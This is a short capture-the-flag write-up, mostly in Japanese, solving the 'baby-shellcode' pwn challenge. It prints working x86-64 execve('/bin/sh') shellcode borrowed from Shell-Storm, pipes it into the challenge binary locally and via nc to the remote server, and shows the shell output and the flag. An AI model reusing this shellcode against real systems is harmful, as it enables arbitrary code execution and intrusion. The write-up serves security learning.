 # baby-shellcode:Pwn:159pts
This challenge is a test to see if you know how to write programs that machines can understand.  
Oh, you know how to code?  
Write some code into this program, and the program will run it for you.  
What programming language, you ask? Well... I said it's the language that machines can understand.  

`nc 34.28.147.7 5000`  
[baby-shellcode](baby-shellcode)  

# Solution
shellcode問題のようだ。  
```bash
$ ./baby-shellcode
a
Illegal instruction
```
実行するとどうやら入力したshellcodeを実行するようだ。  
[Shell-Storm](https://shell-storm.org/shellcode/files/shellcode-806.html)からshellcodeを借りてくる。  
```bash
$ (echo -e '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05';cat) | ./baby-shellcode
whoami
satoki
```
リモートへ試す。  
```bash
$ (echo -e '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05';cat) | nc 34.28.147.7 5000
id
uid=1000 gid=1000 groups=1000
ls
flag
run
cat flag
uoftctf{arbitrary_machine_code_execution}
```
shellcodeが実行でき、flagを読み取れた。  

## uoftctf{arbitrary_machine_code_execution}